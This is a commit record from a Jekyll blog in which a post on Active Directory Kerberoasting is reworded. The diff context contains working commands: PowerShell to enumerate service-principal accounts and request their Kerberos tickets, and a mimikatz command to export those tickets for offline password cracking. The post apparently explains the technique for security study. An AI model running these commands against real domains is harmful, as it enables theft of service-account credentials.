

Before and after one commit to JDSecDef/JDSecDef.github.io, a Jekyll site: the page built from _posts/2022-07-09-AD Kerberoasting.md, in a window 1280 px wide. Shown: the top 819 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update to post.

```diff
--- a/_posts/2022-07-09-AD Kerberoasting.md
+++ b/_posts/2022-07-09-AD Kerberoasting.md
@@ -11,14 +11,14 @@ date: 2022-07-09
 Get-ADUser -filter {(ServicePrincipalName -like "*") -and (Enabled -eq $true)} -Properties ServicePrincipalName, PasswordLastSet | Select Name, ServicePrincipalName, PasswordLastSet
 ~~~
 
-<p>After obtaining user objects with SPN, the below PowerShell commands can be used to retrieve the service ticket, which contains the encrypted password.</p>
+<p>After identifying user objects configured with a SPN, the below commands can be entered into PowerShell to retrieve the service ticket for the user object and store it in memory. The service ticket contains the encrypted password for the user object. If the user object is configured with a weak password, it may be possible to crack it and reveal the clear text password.</p>
 
 ~~~powershell
 Add-Type -AssemblyNAme System.IdentityModel
 New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "InsertSPNNameHere"
 ~~~
 
-<p>After retrieving the service ticket, it is stored in memory. A tool such as <https://github.com/gentilkiwi/mimikatz> can be used to retrive the service ticket from memory. The below mimikatz command retrieves service tickes from memory and saves it as a kirbi file.</p>
+<p>After retrieving the service ticket into memory. A tool such as <a href="https://github.com/gentilkiwi/mimikatz" title="mimikatz">mimiktaz</a> can be used to retrive the service ticket from memory. The below mimikatz command retrieves service tickes from memory and saves it as a kirbi file.</p>
 
 ~~~cmd
 mimikatz # kerberos::list /export
```
